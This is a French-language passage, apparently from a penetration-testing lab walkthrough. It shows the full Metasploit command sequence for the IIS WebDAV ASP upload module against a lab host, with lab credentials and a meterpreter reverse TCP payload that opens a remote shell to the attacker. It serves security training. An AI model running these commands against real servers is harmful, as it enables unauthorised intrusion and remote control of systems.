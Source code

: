 
## 🚀 6. Exploitation avec Metasploit Framework

### Module IIS WebDAV Upload ASP
| Paramètre | Valeur |
|-----------|--------|
| **Module** | `exploit/windows/iis/iis_webdav_upload_asp` |
| **Cible** | IIS 5.0/6.0 avec WebDAV activé |
| **Payload** | windows/meterpreter/reverse_tcp (défaut) |
| **Prérequis** | Credentials WebDAV valides |
| **Action** | Upload automatique shell ASP + exécution |

### Configuration et exécution Metasploit
```bash
# 1. Lancer Metasploit
msfconsole -q

# 2. Utiliser le module WebDAV
use exploit/windows/iis/iis_webdav_upload_asp
show options

# 3. Configuration obligatoire
set RHOSTS demo.ine.local
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/metasploit%RAND%.asp

# 4. Configuration payload (optionnel)
set LHOST your_kali_ip                  # IP attaquant
set LPORT 4444                          # Port d'écoute

# 5. Vérifier configuration
show options

# 6. Lancer l'exploitation
exploit
```

### Options du module détaillées
| Option | Description | Valeur exemple |
|--------|-------------|----------------|
| `RHOSTS` | IP cible | demo.ine.local |
| `RPORT` | Port cible | 80 (défaut) |
| `HttpUsername` | User WebDAV | bob |
| `HttpPassword` | Password WebDAV | password_123321 |
| `PATH` | Chemin upload | /webdav/shell%RAND%.asp |
| `METHOD` | Méthode upload | move (défaut) |
| `LHOST` | IP attaquant | your_kali_ip |
| `LPORT` | Port écoute | 4444 |
